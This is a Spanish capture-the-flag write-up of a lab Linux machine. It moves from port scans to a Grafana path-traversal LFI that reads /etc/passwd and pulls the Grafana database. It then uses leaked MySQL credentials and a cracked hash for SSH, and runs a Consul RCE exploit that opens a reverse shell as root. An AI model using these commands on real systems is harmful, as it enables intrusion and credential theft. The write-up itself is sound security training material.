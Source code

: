 
Summary
IP: 10.10.11.183
Ports: 22,80,3000,3306
OS: Linux (Ubuntu)
Services & Applications:
22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
80 -> Apache httpd 2.4.41
3000 -> ppp?
3306 -> MySQL 8.0.30-0ubuntu0.20.04.2
Recon
Reconocimiento básico de puertos:
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
Reconocimiento profundo de puertos encontrados:
$sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.116.216 -oN targeted
Búsqueda de directorios, pero no encontramos nada interesante; analizamos la web y tampoco hay nada relevante.
Analizamos la web en el puerto 3000 y vemos un login de "Grafana", buscamos vulnerabilidades y encontramos una script en python la cual permite un LFI, analizamos el código y ejecutamos mediante un curl la parte que nos permite ejecutar el LFI:
#curl -s --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd | grep sh
Confirmamos el LFI y hacemos una búsqueda básica de posibles vectores de ataque; intentamos descargar la base de datos que está por detrás de grafana usando el siguiente recurso:
#curl -s --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
Abrimos el archivo ".db" con "sqlitebrowser" y analizamos la base de datos; vemos una tabla llamada "data-source", le hacemos un "table browse" y encontramos el usuario y contraseña para acceder a la base de datos de "grafana", lo hacemos:
#mysql -h10.10.11.183 -ugrafana -pdontStandSoCloseToMe63221!
Buscamos información relevante:
show databes;
use whackywidget;
show tables;
select * from users;
Encontramos el usuario "developer" con un hash, lo crackeamos en www.hashes.com y accedemos por SSH como "developer", y encontramos la primera flag.
ESCALANDO PRIVILEGIOS:
Haciendo una búsqueda típica, no encontramos nada que pueda usarse para escalar privilegios, así que buscamos de forma más rigurosa.

En el directorio "/opt" encontramos una posible aplicación desarrollada en git llamada "my-app", entramos y buscamos archivos ocultos.

Vemos un ".git" por lo que confirmamos que se trata de un desarrollo para github, ejecutamos el comando siguiente para verificar el log:

git log

Vemos varios commits, analizamos el primero con:
git show 33a53ef9a207976d5ceceddc41a199558843bf3c
Podemos ver un código en el que se involucra la función "consul" y un token que podríamos aprovechar ya que con un "ls -l" podemos ver que todo este aplicativo está gestionado por root; buscamos exploits para aprovechar esta función consul y encontramos el siguiente: GatoGamer1155/Hashicorp-Consul-RCE-via-API: Exploit of RCE for gain reverse shell (bash) in Hashicorp Consul on Remote Command Execution via API (github.com)

Descargamos el exploit, lo pasamos a la máquina víctima, y lo ejecutamos poniéndonos en escucha en la máquina atacante:

$ python3 exploit.py --lhost 10.10.14.30 --lport 443 --token bb03b43b-1d81-d62b-24b5-39540ee469b5
Accedemos a una shell como root y vemos la última flag.
